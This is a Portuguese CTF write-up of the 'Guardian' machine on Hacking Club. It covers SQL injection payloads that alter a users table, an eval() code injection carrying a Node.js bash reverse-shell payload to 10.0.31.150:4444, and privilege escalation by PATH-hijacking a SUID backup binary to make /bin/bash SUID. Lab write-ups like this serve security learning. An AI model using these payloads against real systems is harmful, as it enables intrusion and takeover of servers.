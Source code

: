 ```yaml
---
title: 'Guardian Writeup'
date: '2024-06-16'
tags: ['SQLI', 'CODE INJECTION', 'Linux']
draft: false
summary: 'Maquina sobre SQL Injection, code injection e reversing (PE).'
images: ['/static/images/guardian-writeup-images/1.png']
authors: ['default']
---
```


![Guardian 1](/static/images/guardian-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Guardian

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 d3:3b:8b:a7:7a:ac:07:57:97:2b:23:35:fc:a4:5e:42 (ECDSA)
|_  256 b7:4c:f4:d4:3f:be:78:52:88:50:3a:d0:33:b9:48:b1 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Somente as portas 22(SSH) e 80 (HTTP) estão abertas.

---

## Enumeration

![Guardian 2](/static/images/guardian-writeup-images/2.png)

A primeira coisa que eu tentei for um SQLi (SQL Injection) nessa parte da aplicação , mas não funcionou.

Entretanto a parte de “Register for first access” é vulnerável.
![Guardian 3](/static/images/guardian-writeup-images/3.png)

Se você passar ‘ or 1=1# diretamente vc já bypassa. Mas eu optei fazer pelo burp.
![Guardian 4](/static/images/guardian-writeup-images/4.png)

Após isso registrei um novo usuário.
![Guardian 5](/static/images/guardian-writeup-images/5.png)

Quando você tentar se logar , ele diz que precisa a aprovação do admin:
![Guardian 6](/static/images/guardian-writeup-images/6.png)
Veja que a aplicação retorna um JWT , eu pensei inicialmente em atacar esse JWT com bruteforce e none attack mas não deu certo.

Como já temos um SQLi (Sql Injection) na parte de “register for first access” a gente vai usar isso pra alterar a aprovação no banco de dados.

```jsx
"EIN": "' or 1=1; SELECT table_name FROM information_schema.tables WHERE table_schema=database();-- "
```

![Guardian 7](/static/images/guardian-writeup-images/7.png)

```jsx
"EIN": "' or 1=1; SELECT column_name FROM information_schema.columns WHERE table_name='users';-- "
```

![Guardian 8](/static/images/guardian-writeup-images/8.png)

```jsx
"EIN": "' or 1=1; UPDATE users SET approved = 1 WHERE approved = 0;-- "
```

![Guardian 9](/static/images/guardian-writeup-images/9.png)

![Guardian 10](/static/images/guardian-writeup-images/10.png)

Com isso podemos logar no sistema .
![Guardian 11](/static/images/guardian-writeup-images/11.png)

O sistema não tem muita funcionalidade , somente a rota `/customers` funciona.

Quando abrimos a aba de customers e interceptamos , a gente ve que existe um parâmetro chamado “action” sendo passado.
![Guardian 12](/static/images/guardian-writeup-images/12.png)

Quando passamos o +2\*5 a aplicação retorna o valor 10, ou seja ela está executando a função `eval()` logo o parâmetro `action` é vulnerável a code injection.

```
 "action": "db.getClients('56-7890123') +2*5"
```

![Guardian 13](/static/images/guardian-writeup-images/13.png)

---

## Foot Hold

```jsx
"action": "db.getClients('56-7890123'); require('child_process').execSync('bash -c \\"bash -i >& /dev/tcp/10.0.31.150/4444 0>&1\\"').toString();"
```

![Guardian 14](/static/images/guardian-writeup-images/14.png)

`nc -lnvp 4444`
![Guardian 15](/static/images/guardian-writeup-images/15.png)

---

## Privilege Escalation

**SUID** /opt/backup encontrado:

`find / -perm -u=s 2>/dev/null`
![Guardian 16](/static/images/guardian-writeup-images/16.png)

Verificando as strings do SUID:

`strings backup`
![Guardian 17](/static/images/guardian-writeup-images/17.png)

O plano é criar um script chamado `mysqldump` que será invocado antes pelo ELF chamado`backup`.

No Linux, as coisas são executadas em uma ordem específica. Quando executamos um comando, o Linux usa a variável de ambiente `$PATH` para encontrar onde esse programa está localizado (em qual diretório). Podemos modificar isso para fazer o programa procurar primeiro na pasta `/tmp`.

Assim, em vez do programa executar sua função normal, faremos com que ele execute nosso script malicioso primeiro:

```bash
echo '#!/bin/bash' > /tmp/mysqldump
echo 'chmod u+s /bin/bash' >> /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*
```

![Guardian 18](/static/images/guardian-writeup-images/18.png)

Ou seja, criamos um script malicioso que, quando executado pelo programa SUID `backup` (com `bash -p` para manter as permissões), vai modificar o `/bin/bash` para nos conceder root.

---

## Proof

![Guardian 19](/static/images/guardian-writeup-images/19.png)
